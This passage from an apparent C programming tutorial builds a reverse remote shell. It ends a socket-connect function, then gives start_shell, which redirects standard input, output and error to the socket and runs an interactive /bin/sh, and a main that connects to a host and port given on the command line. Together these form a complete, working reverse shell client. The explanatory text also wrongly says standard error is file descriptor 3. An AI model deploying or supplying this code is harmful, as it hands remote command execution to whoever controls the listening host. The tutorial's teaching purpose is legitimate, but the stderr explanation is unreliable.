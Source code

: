 ```C
    {
      perror("connect:");
      exit (EXIT_FAILURE);
    }

  return s;
}
```

The function receives as parameters an IP address to connect to and a port. Then it creates a TCP socket (SOCK_STREAM) and fills in the data for connecting. The connection is effectively established after a successful execution of connect. In case of any error (creating the socket or connection) we just stop the application.

This function will allow us to implement a reverse remote shell. Client continues as:

```C
int
start_shell (int s)
{
  char *name[3] ;

  dup2 (s, 0);
  dup2 (s, 1);
  dup2 (s, 2);

  name[0] = "/bin/sh";
  name[1] = "-i";
  name[2] = NULL;
  execv (name[0], name );
  exit (1);

  return 0;
}
```

the function `start_shell` is pretty simple. It makes use of two system calls dup2 and execv. The first one duplicates a given file descriptor. In this case, the three calls at the beginning of the function, assigns the file descriptor received as parameter to the Standard Input (file descriptor 0), Standard Output (file descriptor 1) and Standard Error (file descriptor 3).

So, if the file descriptor we pass as a parameter is one of the sockets created with our previous client and server functions, we are effectively sending and receiving data through the network every time we write data to the console and we read data from stdin.

Now we just execute a shell with the -i flag (interactive mode). The execv system call will substitute the current process (whose stdin,stdout and stderr are associated to a network connection) by the one passed as parameter.

And finally, main, self-explanatory:

```C
int
main (int argc, char *argv[])
{
  /* FIXME: Check command-line arguments */
  start_shell (client_init (argv[1], atoi(argv[2])));
  return 0;
}
```
